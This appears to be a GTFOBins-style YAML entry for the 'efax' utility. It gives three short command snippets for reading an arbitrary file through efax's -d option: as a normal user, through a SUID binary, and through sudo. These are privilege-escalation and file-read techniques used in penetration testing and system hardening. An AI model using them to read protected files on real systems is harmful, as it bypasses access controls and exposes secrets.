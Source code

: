 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        efax -d "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./efax -d "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo efax -d "$LFILE"
---
```

